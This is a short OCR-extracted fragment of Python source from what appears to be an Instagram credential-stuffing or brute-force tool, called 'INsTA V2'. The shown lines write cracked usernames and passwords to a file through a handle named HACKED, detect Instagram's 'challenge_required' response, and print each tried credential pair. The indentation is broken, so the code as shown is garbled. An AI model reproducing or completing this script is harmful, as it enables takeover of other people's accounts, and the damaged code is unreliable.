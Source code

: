             with open('INsTA V2.txt', 'a') as (HACKED):

                HACKED.write(' [-] UserName : {} \n [-] Passowrd : {} \n\n'.format(username,password))

        elif '"message":"challenge_required","challenge"' in req_login.text:

            ib+=1

            print (Z+'username S ==> : '+username+': password ==> : '+password)

        else:

            print (K+'username ==> : '+username+': password ==> : '+password)

            aa+=1

else:

            print(E + 'username ==> : ' + username + ': password ==> : ' + password)

            aa += 1
